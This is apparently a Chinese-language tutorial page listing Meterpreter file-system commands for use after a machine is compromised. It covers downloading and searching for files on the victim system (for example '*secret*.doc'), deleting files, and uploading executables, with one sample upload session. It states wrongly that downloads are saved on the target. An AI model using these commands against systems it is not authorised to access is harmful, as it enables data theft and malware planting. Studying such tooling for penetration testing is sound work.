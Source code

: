# Meterpreter-文件处理命令

在获取一定权限后可以对靶机电脑的文件进行一些操作，以扩大战果。

`meterpreter`的文件操作命令和Linux基本相同，不熟悉windows命令的也可以使用。

**文件系统命令**

1. cat -读取并输出到标准输出文件的内容

2. cd -更改目录

3. del -删除文件

4. download-从受害者系统文件下载

   ` -a   Enable adaptive download buffer size
       -b   Set the initial block size for the download
       -c   Resume getting a partially-downloaded file
       -h   Help banner
       -l   Set the limit of retries (0 unlimits)//重复下载次数
       -r   Download recursively//下载文件夹
       -t   Timestamp downloaded files`

   下载的文件会保存在靶机的当前目录下。当然也可以指定路径。

5. edit-用 vim编辑文件

6. `getlwd `-打印本地目录

7. `getwd` -打印工作目录

8. lcd -更改本地目录

9. `lpwd` -打印本地目录

10. ls -列出在当前目录中的文件列表

11. `mkdir` -在目标系统上的创建目录

12. `pwd `-输出工作目录

13. rm -删除文件

14. `rmdir `-受害者系统上删除目录

15. search-文件查找 

    `  -a   Find files modified after timestamp (UTC).  Format: YYYY-mm-dd or YYYY-mm-ddTHH:MM:SS
        -b   Find files modified before timestamp (UTC). Format: YYYY-mm-dd or YYYY-mm-ddTHH:MM:SS
        -d   The directory/drive to begin searching from. Leave empty to search all drives. (Default: )//搜索路径
        -f   A file pattern glob to search for. (e.g. *secret*.doc?)*单个字符，？多个字符。
        -h   Help Banner
        -r   Recursively search sub directories. (Default: true)//`  

       ``search -f *.xx格式`查找所有xx格式的文件

16.  `show_mount`列举目标机器的挂载点，也就是有几个盘。

17. upload-从攻击者的系统往受害者系统上传文件

    `upload 本地目录文件 目标路径 ////-r上传文件夹`

    `meterpreter > upload /test01/ppp.exe /test
    [*] uploading  : /test01/ppp.exe -> /test
    [*] uploaded   : /test01/ppp.exe -> /test\ppp.exe`

    

    __PS__:`check xx文件`可以校验一些MD5加密的文件。部分命令两个`ll`是对本机文件进行操作如`lcd,lls等`。